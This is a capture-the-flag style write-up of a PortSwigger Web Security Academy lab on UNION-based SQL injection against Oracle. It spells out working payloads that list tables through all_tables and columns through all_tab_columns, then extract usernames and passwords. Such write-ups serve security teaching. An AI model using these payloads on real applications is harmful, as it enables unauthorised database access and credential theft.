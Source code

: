 # SQL injection attack, listing the database contents on Oracle

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on Oracle databases”*, we demonstrated how an attacker can enumerate Oracle database tables, their columns, and sensitive user credentials using a series of UNION SELECT queries against the `all_tables` and `all_tab_columns` system views.

---

# Descriprion

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Full data breach**: Oracle’s system views (`all_tables`, `all_tab_columns`) make schema enumeration straightforward once injection is possible.
* **Persistence risk**: Knowledge of table and column structures allows attackers to craft further malicious queries or establish backdoors.
* **Compliance violations**: Harvesting plaintext or weakly hashed credentials can trigger GDPR, CCPA, or equivalent reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                          | Intended SQL generated by the app                                                                                                 | What actually happens & why                                                     |
| - | --------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 1 | Confirmed number and type of columns via UNION injection (2 columns, both strings).                                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT 'a','b'--`                                                               | Verified injection point and established query structure.                       |
| 2 | Enumerated tables with:<br>`' UNION SELECT table_name,NULL FROM all_tables--`                                                           | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name,NULL FROM all_tables--`                                       | Retrieved all table names. Identified `USERS_TOAEAL` as the target users table. |
| 3 | Enumerated columns for `USERS_TOAEAL` with:<br>`' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Revealed sensitive columns `USERNAME_DINZLR` and `PASSWORD_BTNGGB`.             |
| 4 | Extracted credentials with:<br>`' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                                     | `SELECT * FROM someTable WHERE category='X' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | Retrieved full list of usernames and passwords.                                 |
| 5 | Logged in using harvested credentials.                                                                                                  | —                                                                                                                                 | Administrative access granted, lab solved.                                      |

---

![Lab banner – PortSwigger Apprentice level](3.png)

> *Extracting the username and password column that contain the username and password info*

## Observable Output

| Test / Payload                                                                           | Visible Result                                 | What it Proved                       |
| ---------------------------------------------------------------------------------------- | ---------------------------------------------- | ------------------------------------ |
| `' UNION SELECT 'a','b'--`                                                               | Page rendered with injected values             | Confirmed 2-column structure.        |
| `' UNION SELECT table_name,NULL FROM all_tables--`                                       | List of Oracle system + custom tables          | Schema enumeration successful.       |
| `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_TOAEAL'--` | Displayed `USERNAME_DINZLR`, `PASSWORD_BTNGGB` | Sensitive column names identified.   |
| `' UNION SELECT USERNAME_DINZLR,PASSWORD_BTNGGB FROM USERS_TOAEAL--`                     | List of usernames and passwords                | Full credential disclosure achieved. |

---

![Lab banner – PortSwigger Apprentice level](4.png)

> *The list of usernames and passwords outputed*

## Conclusion

By leveraging UNION-based SQL injection against Oracle system views, we escalated from basic injection discovery to a full schema compromise, ultimately harvesting usernames and passwords. The lab highlights the risk of unsanitised SQL concatenation in Oracle environments.

